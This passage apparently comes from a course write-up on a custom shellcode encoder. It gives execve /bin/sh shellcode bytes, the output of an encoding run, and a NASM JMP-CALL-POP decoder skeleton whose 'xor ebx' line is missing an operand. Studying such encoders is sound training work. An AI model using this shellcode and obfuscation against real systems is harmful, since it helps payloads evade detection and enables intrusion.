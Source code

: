 If you pass the correct arguments, in encodes your shellcode and *asserts* that it can be decoded correctly:

```bash
echo "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\xb0\x0b\x89\xe3\x8d\x4c\x24\x08\x8d\x54\x24\x08\xcd\x80" > shellcode.bin

python3 encoder.py -i ./shellcode.bin -o /tmp/encoded.binc

# [+] Non-encoded shellcode (HEX): 31c050686e2f7368682f2f6269b00b89e38d4c24088d542408cd800a
# [+] Non-encoded shellcode length: 28 bytes
# [+] Rotations for even-index bytes: 2 (hex: 0x2)
# [+] Rotations for odd-index bytes: 168 (hex: 0xa8)
# [+] Least Significant Byte of Shellcode Length XOR-ed with ROT_EVEN: 30 (hex: 0x1e)
# [+] Most Significant Byte of Shellcode Length XOR-ed with ROT_ODD: 168 (hex: 0xa8)
# [+] Helper bytes for decoding (HEX): 02a81ea8

# [#] Encoding ...
# [+] Encoded shellcode (HEX): 02a81ea8ad21f5897ace3d89fbce2a83bb512368196cf2c5e36cf4c5e32cc1eb
# [+] Encoded shellcode length: 32 bytes
# [+] Assembly data: 0x2,0xa8,0x1e,0xa8,0xad,0x21,0xf5,0x89,0x7a,0xce,0x3d,0x89,0xfb,0xce,0x2a,0x83,0xbb,0x51,0x23,0x68,0x19,0x6c,0xf2,0xc5,0xe3,0x6c,0xf4,0xc5,0xe3,0x2c,0xc1,0xeb

# [#] Decoding ...
# [+] Decoded shellcode (HEX): 31c050686e2f7368682f2f6269b00b89e38d4c24088d542408cd800a
```

The line starting with **Assembly data:** contains the bytes you can copy-paste into the NASM skeleton file and use them with the `JMP-CALL-POP` technique:

```bash
# [+] Assembly data: 0x2,0xa8,0x1e,0xa8,0xad,0x21,0xf5,0x89,0x7a,0xce,0x3d,0x89,0xfb,0xce,0x2a,0x83,0xbb,0x51,0x23,0x68,0x19,0x6c,0xf2,0xc5,0xe3,0x6c,0xf4,0xc5,0xe3,0x2c,0xc1,0xeb
```

### Assembly Decoder

First step is to prepare the skeleton of the decoder. I used the same shown in the `Episode 31` of the course, employed in conjunction with the `Insertion` encoder:

```nasm
; Author: Robert C. Raducioiu (rbct)

global _start

section .text

_start:

    xor ebx
    mul ebx

    jmp short CallShellcode

Shellcode:

    pop esi

Decode:

    ; ...

    jmp short Decode

CallShellcode:

    call Shellcode
```